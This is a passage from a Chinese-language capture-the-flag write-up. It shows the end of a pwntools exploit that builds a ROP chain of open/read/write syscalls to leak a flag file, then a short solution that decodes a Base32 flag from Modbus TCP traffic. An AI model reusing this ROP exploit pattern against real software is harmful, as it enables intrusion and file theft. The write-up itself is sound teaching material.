     payload = b"echo " + b"+" * 0x200 + b" " + b"a" * 4

    payload += p64(pop_rax_ret)
    payload += p64(2)
    payload += p64(pop_rdi_ret)
    payload += p64(flag_str)
    payload += p64(pop_rsi_ret)
    payload += p64(0)
    payload += p64(syscall_ret)

    payload += p64(pop_rax_ret)
    payload += p64(0)
    payload += p64(pop_rdi_ret)
    payload += p64(3)
    payload += p64(pop_rsi_ret)
    payload += p64(data_buf)
    payload += p64(pop_rdx_ret)
    payload += p64(0x100)
    payload += p64(syscall_ret)

    payload += p64(pop_rax_ret)
    payload += p64(1)
    payload += p64(pop_rdi_ret)
    payload += p64(1)
    payload += p64(pop_rsi_ret)
    payload += p64(data_buf)
    payload += p64(pop_rdx_ret)
    payload += p64(0x100)
    payload += p64(syscall_ret)

    payload += b"A" * 16 + b"A" * (0x100 - 23 * 8)

    info(payload)

    # payload += b"A" * 0x40

    p.sendlineafter(b"# ", payload)
    p.interactive()
    ```

---

## 被加密的生产流量
![](https://img.shields.io/badge/-MISC-informational?style=flat-square)

modbus TCP 流量，直接 wireshark 追踪 TCP 流，可以发现前一部分客户端流量每次末尾都有两个可见字符，拼到一起：

MMYWMX3GNEYWOXZRGAYDA===

Base32 编码，解码得到 c1f_fi1g_1000，包上 flag{} 即 flag。

--- 

## pyshell
![](https://img.shields.io/badge/-MISC-informational?style=flat-square)
